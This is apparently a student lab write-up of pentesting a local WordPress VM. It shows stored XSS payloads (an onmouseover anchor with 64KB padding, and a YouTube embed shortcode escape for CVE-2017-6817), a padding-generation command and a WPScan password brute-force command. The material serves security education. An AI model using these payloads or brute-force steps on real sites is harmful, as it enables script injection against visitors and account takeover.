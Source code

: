 <h1> Wordpress Pentesting </h1>

<h3> Time: approx 14 hours </h3>

<h3> 1. Stored XSS </h3>
Discovered by Jouko Pynnönen of Klikki Oy  <a href=url>https://klikki.fi/adv/wordpress2.html</a> This site was used as a resource. I injected the anchor tag below into the a post. 
      
   <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px [64 kilobytes of Letters]’> </a>

  You need 64 kilobytes of letters due to the MYSQL text size limit being 64KB so I made that with this python command. <br>
      <strong> python -c 'print ("A"*65600)' > payload.txt </strong> <br>
  In vim you can open up payload.txt and use ":%+" to copy the entire file and then paste it where the letters go in the anchor tag payload.
      This script will be triggered when the comment is viewed.
      ![Image Walkthrough](https://github.com/redbeard-sys/Codepath-week-7-and-8-kali/blob/main/XSS.gif)
 
   <h2> 2. Brute Force Login with WPScan and wordlist </h2>
      
      WPScan can ennumerate users and generate passwords if you use a wordlist.
      -use command: wpscan --url wpdistillery.vm -passwords passwords.txt
      -You can see on the left the admin section is open with the list of users
      -On the write you can see the result of the above command where the users are enumerated with their password.
      -I log in to user Franz using the results of the wpscan 
      
   ![Image](https://github.com/redbeard-sys/Codepath-week-7-and-8-kali/blob/main/password.gif)
     
      
      
  <h2> 3. Another Stored XSS </h3>
      <h4> versions before 4.2.3 are affected</h4>
     Also discovered by Jouko Pynnönen of Klikki Oy  <a href=url>https://klikki.fi/adv/wordpress3.html</a> 
      The following XSS attack requires a author or contributor level account.
      This could be made more malicious if a style tag is added to cover the whole page to force the execution of onmouseover
      The following code was inculcated into a post:
      
  ![Image](https://github.com/redbeard-sys/Codepath-week-7-and-8-kali/blob/main/linkXSS.gif)
      
       Wordpress processes this code into the following form
      
  ![Image](https://github.com/redbeard-sys/Codepath-week-7-and-8-kali/blob/main/storedXSS.gif)
      
      <h2> 4. Youtube stored XSS </h3>
      
      Resources below:  
     
   [suciri.net](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)  
      
                  CVE: 2017-6817
      
   [cvedetails.com](https://www.cvedetails.com/cve/CVE-2017-6817/)
      
      This is a core issue that was not resolved until 4.7.3
      
      the xce is an escape sequence to get around the shortcode_parse_atts function.
      
      Exploit: requires author or contributor level account.
      The following input:
      [embed src='https://www.youtube.com/embed/12345\x3csvg onload=alert("hacked")\x3e'][/embed]
      will be processed as
      <p>https://youtube.com/watch?v=12345<svg onload=alert("hacked")></p>





